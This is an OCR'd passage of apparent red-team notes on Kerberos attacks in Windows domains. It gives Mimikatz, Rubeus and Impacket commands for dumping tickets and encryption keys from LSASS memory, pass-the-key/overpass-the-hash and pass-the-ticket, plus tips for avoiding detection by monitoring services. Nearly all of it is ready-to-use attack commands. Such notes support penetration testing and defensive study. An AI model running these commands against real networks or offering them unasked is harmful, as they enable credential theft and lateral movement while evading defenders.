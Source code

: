 - /nowrap ⇒ easier copy-and-paste
    
  
Mimikatz
kerberos::tgt ⇒ list current session TGT
kerberos::list ⇒ list current session all tickets
sekurlsa::tickets ⇒ list all tickets for all sessions but injects into LSASS memory so don’t do it if there’s a monitoring service
- add /export to any of these to export but first base64 /out:true and base64 /in:true to export base64 encoded (less likely to be detected)
    
  
#### Harvest Keys
Mimikatz
sekurlsa::ekeys
#### Purge Tickets
  
Rubeus
rubeus purge
  
Mimikatz
kerberos::purge
  
# Pass-the-Key (PTK)/Overpass-the-Hash (OPTH)
pass-the-key or pass-the-hash to obtain a TGT
  
Rubeus
rubeus asktgt /domain:[domain] /user:[user] /rc4:[hash] /ptt
  
Mimikatz
sekurlsa::pth /user:[user] /domain:[domain] /rc4:[hash]
- /run:[cmd.exe OR powershell.exe]
    
  
Impacket (Remote)
impacket-getTGT [domain]/[user]:[password]
- -dc-ip [DC]
    
- -hashes [hash]
    
export KRB5CCNAME=[ticket].ccache
  
# Pass-the-Ticket (PTT)
Note: can either pass the TGT or pass the TGS
  
- dump the ticket to be passed (see [Harvest Tickets](https://docs.google.com/document/d/17W30A0wpB7lVTDb7SCjWs0lb9bMAjVR4B7Dp_c2rU2g/edit?pli=1#heading=h.9267jzhnvwqm) above)
    
- for Mimikatz, export tickets with sekurlsa::tickets /export
    
Rubeus
rubeus ptt /ticket:[ticket]
  
Mimikatz
kerberos::ptt [ticket]
  